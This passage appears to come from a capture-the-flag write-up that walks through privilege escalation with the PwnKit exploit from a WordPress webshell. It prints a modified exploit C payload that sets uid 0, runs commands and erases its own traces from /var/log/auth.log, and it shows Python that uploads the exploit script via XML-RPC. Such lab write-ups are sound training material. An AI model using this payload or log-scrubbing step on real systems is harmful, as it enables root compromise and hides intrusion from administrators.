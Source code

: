 If this binary was last modified last July, then it’s very unlikely that it’s patched in early 2022.

### PwnKit Exploit

#### POC Exploit

There are a bunch of exploits out there. I went with [this one](https://github.com/kimusan/pkwner?ref=pythonawesome.com) as a shell script that will generate and run the payload. I’ll download the script, and I’ll have to modify it a bit. Since I’m just running from a webshell, I can’t have the result be a root shell. Instead, I’ll have to put the command I want in the script. To test, I’ll run `id`, putting it in the place of `/bin/bash` in what’s written to `pkwner.c` here:

```

cat > pkwner/pkwner.c <<- EOM
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
  printf("hello");
  setuid(0); setgid(0);
        seteuid(0); setegid(0);
  system("PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin/:/usr/local/sbin;"
         "rm -rf 'GCONV_PATH=.' 'pkwner';"
         "cat /var/log/auth.log|grep -v pkwner >/tmp/al;cat /tmp/al >/var/log/auth.log;"
         "id");
        exit(0);
}
EOM

```

#### Upload

There is a `wp.uploadFile` method in WordPress XML-RPC which I found the general syntax for [here](https://gist.github.com/georgestephanis/5681982). I couldn’t find it in the [docs](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/index.html) for the Python client, but it is in the [code](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/wordpress_xmlrpc/methods/media.py#L39). There’s also a [test for uploading a file](https://github.com/maxcutler/python-wordpress-xmlrpc/blob/7ac0a6e9934fdbf02c2250932e0c026cf530d400/tests/test_media.py#L35), which I can use as a model.

In the same Python terminal I’ve been working out of (with a client already connected), I’ll import `media`, and then create a `data` object:

```

>>> from wordpress_xmlrpc.methods import media
>>> with open('pkwner.sh', 'r') as f:
...     script = f.read()
... 
>>> data = { 'name': 'pkwner.sh', 'bits': script, 'type': 'text/plain' }

```
